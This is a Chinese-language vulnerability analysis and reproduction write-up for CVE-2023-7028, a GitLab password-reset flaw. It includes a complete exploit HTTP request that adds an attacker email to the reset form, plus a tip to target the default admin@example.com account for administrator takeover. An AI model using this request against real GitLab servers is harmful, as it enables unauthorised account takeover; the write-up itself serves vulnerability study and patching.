



GitLab任意用户接管漏洞分析复现（CVE-2023-7028）

- - -

# GitLab任意用户接管漏洞分析复现（CVE-2023-7028）

## 漏洞描述

2024年1月11日，Gitlab官方披露CVE-2023-7028 GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置Gitlab仅对可信地址开放。

### 影响范围

> 16.1 <= Gitlab < 16.1.6
> 
> 16.2 <= Gitlab < 16.2.9
> 
> 16.3 <= Gitlab < 16.3.7
> 
> 16.4 <= Gitlab < 16.4.5
> 
> 16.5 <= Gitlab < 16.5.6
> 
> 16.6 <= Gitlab < 16.6.4
> 
> 16.7 <= Gitlab < 16.7.2

**这里需要注意的是，该漏洞于 2023 年 5 月 1 日在 16.1.0 中引入。所以低于Gitlab主线版本低于16.1.0环境不受该漏洞影响。**

### 漏洞利用前置条件

1、知道任意用户的邮箱

2、管理员正确配置了邮件服务

## 代码分析

根据官方的[commit记录](https://gitlab.com/rluna-gitlab/gitlab-ce/-/commit/24d1060c0ae7d0ba432271da98f4fa20ab6fd671)来看，很容易就能发现问题——限制了邮件发送的数量。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240116003924-a4085d56-b3c4-1.png)

## 漏洞复现

知道了漏洞的原理，接下来就开始漏洞复现。

首先访问`/users/password/new`进入到重置密码的页面，输入一个你知道的用户，然后使用Burp或者其他工具抓包。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240116003935-aa853d2a-b3c4-1.png)

```plain
POST /users/password HTTP/1.1
Host: 1.1.1.1
Content-Length: 169
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://1.1.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Referer: http://1.1.1.1:8090/users/password/new
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _gitlab_session=e8eb950940d6e5d7c3820e6c9e103d7b
DNT: 1
Sec-GPC: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Connection: close

authenticity_token=LnGtHYZiXkXxCGby0lK-Krqy79_lJlbjWsYjz7exHItcrWDAQQX4Yb1rV9J5y4V89Ik8U9UpTbro8owRoekdAA&user%5Bemail%5D%5B%5D=poc1%40163.com&user%5Bemail%5D%5B%5D=attack%40qq.com
```

第一个邮箱处填写获取到的邮箱，第二个邮箱写上你自己的邮箱，然后发包，过一会你的邮箱就会收到一封密码重置的邮件，然而这个邮件里面的重置连接是另一个用户的，效果如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240116004034-cde3d466-b3c4-1.png)  
可以看到把重置密码的邮件同时发给了两个邮箱，然而第二个邮箱是没有经过验证的攻击者的邮箱，攻击者收到邮件后直接点击重置密码，就可以接管对应的账户了。

## 后续利用

### Gitlab版本判断

[https://github.com/righel/gitlab-version-nse/](https://github.com/righel/gitlab-version-nse/)

### 重置管理员账号

在gitlab安装时，管理员的默认账户为`admin@example.com`，所以可以通过直接重置默认邮箱，大概率能直接接管gialab管理员的账号。
